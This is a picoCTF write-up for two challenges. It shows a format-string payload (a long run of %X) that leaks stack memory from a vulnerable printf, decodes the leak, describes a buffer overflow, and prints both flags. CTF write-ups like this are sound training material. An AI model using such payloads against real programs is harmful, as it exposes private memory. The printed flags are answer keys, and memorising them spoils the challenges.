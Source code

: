 ### Stonks

going through the file `vuln.c` i come to notice an vulnerable line

![image](https://github.com/oxo-crab/picoCTF/assets/111520157/44a6f7ca-d040-4d48-8431-47fdc093bf38)

here the 'user_buf' is the string we enter when asked for api token, seeing that there's no format identifier in printf statement makes it prone to injection. So by putting "%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X%X" as input i get bunch of data in hexadecimal

![image](https://github.com/oxo-crab/picoCTF/assets/111520157/ad1581dc-ac04-4bd5-91e8-cdc58649e692)

```9EFD3F0804B00080489C3F7F3CD80FFFFFFFF19EFB160F7F4A110F7F3CDC709EFC18029EFD3D09EFD3F06F6369707B465443306C5F49345F74356D5F6C6C306D5F795F79336E3534303664303664FFC7007DF7F77AF8F7F4A440E47DAE0010F7DD9CE9F7F4B0C0F7F3C5C0F7F3C000FFC73EF8F7DCA68DF7F3C5C08048ECAFFC73F040F7F5EF09804B000F7F3C000F7F3CE20FFC73F38F7F64D50F7F3D890E47DAE00F7F3C000804B000FFC73F38```


translated to 

```��?���H�?<������J<�p����=	���ocip{FTC0l_I4_t5m_ll0m_y_y3n5406d06d���}��z����@�}���ݜ���������������>��ܦ������H��s�@���	�K�<�<��s�d�=�G��<�����?8```


using this, we get the key.

*flag:- picoCTF{I_l05t_4ll_my_m0n3y_6045d60d}*

---

### Buffer overflow 0

as the name implies, the vulnerability lies because fgets in the source code which continues reading the character even after the 100 byte limit set.The trick is to pretty much spam with keyboard to make sure the strings are big enough to cause segmentation fault.

flag:- picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}

---
### 


